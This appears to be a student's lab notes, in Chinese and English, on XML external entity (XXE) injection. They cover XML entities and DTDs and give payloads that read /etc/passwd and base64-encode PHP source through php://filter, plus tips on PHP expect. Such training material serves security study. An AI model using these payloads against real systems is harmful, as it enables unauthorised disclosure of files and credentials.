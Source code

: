 * https://www.convertjson.com/json-to-xml.htm
* xml
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```
```xml=
<?xml version="1.0" encoding="UTF-8"?>
  <root>
    <name>123</name>
    <tel>123</tel>
    <email>123@abc.xyz</email>
    <message>123</message>
  </root>
```
* < > call <span style=color:red>TAG</span>
* Entity
    * XML variables, usually wrapped with (&/;) characters
        * &lt
---
* XML Document Type Definition（DTD）
* 一旦我們定義了一個實體，就可以在 XML 文件中透過 & 和分號 ;（例如&company;）來引用它。每當引用實體時，XML filter都會將其替換為其值。然而，最有趣的是，我們可以reference External XML Entities使用SYSTEM關鍵字，後面跟著外部實體的路徑，如下所示
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```
```xml=
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
# <span style=color:#44D62C>Local File Disclosure</span>
* Identifying web pages that accept an XML user input
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
![Screenshot_20240520_165423](https://hackmd.io/_uploads/B1fA1cu7C.jpg)

* PHP://expect
:::warning
avoid breaking the XML syntax
* |, >, {
* spaces
    * change as IFS
:::

# <span style=color:#44D62C>File Disclosure</span>